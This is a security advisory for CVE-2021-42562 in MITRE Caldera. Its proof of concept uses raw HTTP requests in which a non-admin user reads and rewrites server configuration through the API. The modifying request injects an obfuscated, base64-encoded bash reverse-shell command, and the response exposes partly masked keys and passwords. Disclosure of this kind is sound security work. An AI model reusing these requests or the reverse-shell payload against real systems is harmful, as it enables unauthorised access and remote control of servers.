

# CVE-2021-42562: Improper Access Control in MITRE Caldera

Caldera (versions <=2.8.1) does not properly segregate user privileges, resulting in non-admin users having access to read and modify configuration or other components which should only be accessible by admin users.
<br/>

### Software:

The MITRE Caldera software can be found [here](https://github.com/mitre/caldera).

### Requirements:

This vulnerability requires:
<br/>
- Valid user credentials

### Proof Of Concept:

For this scenario we will login as the non-admin user "blue". As can be seen in the image below, blue does not have access to the "Configuration" tab, but by using direct API requests, we are still able to read and modify the configurations.



Login Request:
```
POST /enter HTTP/1.1
Host: 192.168.243.180:8888
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

username=blue&password=po***TRUNCATED***5Y
```

Login Response:
```
HTTP/1.1 302 Found
Content-Type: text/plain; charset=utf-8
Location: /
Content-Length: 10
Set-Cookie: API_SESSION="gAAAAABfk0kpIYcoemLUYUktkN886YjTcnC2BIAVrwSOPBuEpIxsFCaBPXLFw0UqlmoiC_2BkrGfBNAgojCLDd_JB7qmq49lOHf_3OemdECrQvsT2draejz9AiGAua1iZMz96iITQoniNpfmh7hDQkoI2omNN3QYiwa3cM9BbP1BLB6tqsfRG4M="; HttpOnly; Path=/
Date: Fri, 23 Oct 2020 21:20:41 GMT
Server: Python/3.6 aiohttp/3.6.2
Connection: close

302: Found
```

Config request via API using blue's session cookie:
```
POST /api/rest HTTP/1.1
Host: 192.168.243.180:8888
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 313
Origin: http://192.168.243.180:8888
Connection: close
Referer: http://192.168.243.180:8888/
Cookie: API_SESSION="gAAAAABfk0kpIYcoemLUYUktkN886YjTcnC2BIAVrwSOPBuEpIxsFCaBPXLFw0UqlmoiC_2BkrGfBNAgojCLDd_JB7qmq49lOHf_3OemdECrQvsT2draejz9AiGAua1iZMz96iITQoniNpfmh7hDQkoI2omNN3QYiwa3cM9BbP1BLB6tqsfRG4M="

{"index":"configuration","prop":"requirements","value":{"go": {"command": "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}", "type": "installed_program", "version": "I'm blue"}, "python": {"attr": "version", "module": "sys", "type": "python_module", "version": "3.6.1"}}}
```

Response:
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 1103
Date: Fri, 23 Oct 2020 21:22:31 GMT
Server: Python/3.6 aiohttp/3.6.2
Connection: close

{"ability_refresh": 60, "api_key_blue": "aH***TRUNCATED***TU", "api_key_red": "Qv***TRUNCATED***M4", "app.contact.gist": "API_KEY", "app.contact.http": "http://0.0.0.0:8888", "app.contact.tcp": "0.0.0.0:7010", "app.contact.udp": "0.0.0.0:7011", "app.contact.websocket": "0.0.0.0:7012", "crypt_salt": "yz***TRUNCATED***Hw", "encryption_key": "0C***TRUNCATED***lw", "exfil_dir": "/tmp", "host": "0.0.0.0", "plugins": ["access", "atomic", "compass", "debrief", "fieldmanual", "gameboard", "manx", "response", "sandcat", "stockpile", "training", "/tmp/hexor"], "port": 8888, "reports_dir": "/tmp", "requirements": {"go": {"command": "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}", "type": "installed_program", "version": "I'm blue"}, "python": {"attr": "version", "module": "sys", "type": "python_module", "version": "3.6.1"}}, "users": {"blue": {"blue": "po***TRUNCATED***5Y"}, "red": {"red": "mS***TRUNCATED***mM"}}}
```

<strong>Note:</strong> As it can be seen in the above request, this vulnerability allows a non-admin user to leverage [CVE-2021-42559: Command Injection Via Configurations](../CVE-2021-42559-Command%20Injection%20Via%20Configurations-MITRE%20Caldera).
